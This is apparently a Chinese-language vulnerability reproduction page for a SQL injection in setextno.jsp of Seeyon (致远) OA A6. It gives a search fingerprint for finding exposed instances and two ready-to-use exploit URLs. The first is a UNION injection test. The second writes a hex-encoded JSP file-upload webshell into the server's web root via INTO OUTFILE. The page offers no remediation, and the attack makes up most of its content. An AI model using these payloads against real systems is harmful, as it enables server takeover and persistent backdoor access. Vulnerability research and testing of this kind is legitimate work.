

# 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

  <a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下Url，其中含有 union注入

```plain
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```


查看web路径


写入文件上传木马


```plain
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```


